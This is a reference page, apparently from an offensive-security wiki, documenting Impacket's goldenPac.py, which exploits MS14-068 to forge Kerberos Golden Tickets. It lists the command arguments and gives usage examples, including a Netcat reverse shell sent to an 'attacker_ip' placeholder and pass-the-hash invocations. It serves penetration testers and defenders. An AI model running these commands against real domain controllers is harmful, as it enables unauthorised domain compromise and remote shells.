 # goldenPac.py

[goldenPac.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/goldenPac.py) is an exploitation script for the [CVE-2014-6324](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#ms14-068-cve-2014-6324) ([MS14-068](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068)). If the domain controller is vulnerable, it is possible to forge a [Golden Ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#ms14-068-cve-2014-6324) without knowing the `krbtgt` hash by bypassing the PAC signature verification.

Because it is a Kerberos attack, the remote target and the domain MUST be specified with the FQDN and the attacker machine MUST be time synced with the domain controller.

## Commons

It has the following generic command line arguments, similar to many other tools:

* required positional argument #1: `[[domain/]username[:password]@]<targetName>` (e.g. `domain.local/user@dc01.domain.local`).

![required positional argument format](<../../.gitbook/assets/impacket\_positional\_arg-with target.png>)

* `-hashes`: the LM and/or NT hash to use for a [pass-the-hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) (NTLM). The format is as follows: `[LMhash]:NThash` (the LM hash is optional, the NT hash must be prepended with a colon (`:`).
* `-dc-ip`: IP address of the domain controller. If omitted, the positional argument's domain part will be used (in that case, it must be a Fully-Qualified-Domain-Name (FQDN)).
* `-debug`: with this flag set, the utility will be more verbose and will possibly print useful information for debug purposes. With this flag set, the utility will also print tracebacks.
* `-ts`: with this flag set, the utility will prepend all output with a timestamp.

## Specificities

It also has the following specific command line arguments:

* positional argument #2: command to execute on the target system (e.g. `whoami` or `'powershell -c "nc.exe attacker_ip listener_port -e cmd.exe"'`), or arguments for the uploaded file if the `-c` option is used. If omitted, `cmd.exe` will be executed via `psexec` to open a shell. If `None` is specified, no command will be executed and only the TGT will be saved for later use.
* `-target-ip`: IP address of the target machine. If omitted, the positional argument's target part will be used. This argument is useful when NetBIOS name resolution request fail.
* `-c`: uploads the specified file on the remote target and executes it with the arguments passed in the positional argument #2.
* `-w`: writes the Golden Ticket at the specified path. Useful with `None` specified in the positional argument #2.

```bash
# with cleartext credentials
goldenPac.py 'DOMAIN.LOCAL'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
goldenPac.py -hashes :'NThash' 'DOMAIN.LOCAL'/'USER'@'DOMAIN_CONTROLLER'

# uploads Netcat and execute a reverse shell
goldenPac.py -c ./nc.exe 'DOMAIN.LOCAL'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER' 'attacker_ip listener_port -e cmd.exe'
```

{% hint style="info" %}
If the -hashes argument is supplied, the utility will be able to use it for [pass-the-hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) when obtaining the Forest SID, when listing Domain Controllers, or use it for [overpass-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/opth) for Kerberos operations.
{% endhint %}

{% hint style="info" %}
The utility creates a PAC with the following default groups ids: 513, 512, 520, 518, 519.

There are scenarios where a ticket with a PAC containing these ids wouldn't be enough (see. [this](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#practice)). Also, it could be useful to note that as of November 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket will get rejected.
{% endhint %}
